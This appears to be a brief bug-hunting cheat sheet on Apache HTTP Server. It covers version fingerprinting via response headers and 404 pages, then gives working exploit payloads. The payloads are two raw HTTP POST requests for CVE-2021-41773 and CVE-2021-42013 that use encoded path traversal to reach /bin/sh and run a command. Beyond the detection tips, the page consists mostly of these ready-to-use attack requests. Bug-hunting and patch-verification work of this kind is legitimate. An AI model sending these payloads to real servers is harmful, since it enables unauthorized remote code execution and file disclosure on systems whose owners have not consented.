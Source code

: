 ```yaml
---
title: Apache HTTP Server (common bugs)
tags: [bug hunting, apache]
categories: [bug hunting, apache]
date: 2022-01-05 11:33:00
---
```



# Apache (HTTP Server) Common Bugs

## Introduction
What would you do if you came across a website that uses Apache (HTTP Server)?

## How to Detect
Usually in the HTTP response there is a header like this `Server: Apache` or `Server: Apache/2.4.50` and check the 404 page

1. Find the related CVE by checking Apache (HTTP Server) version
* How to find the Apache (HTTP Server) version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated Apache (HTTP Server) version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/Apache-Http-Server.html)

Some example CVE:

- CVE-2021-41773 (RCE and LFI)
```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded
Connection: close

echo;id
```
- CVE-2021-42013 (LFI TO RCE)
```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

echo;id
```
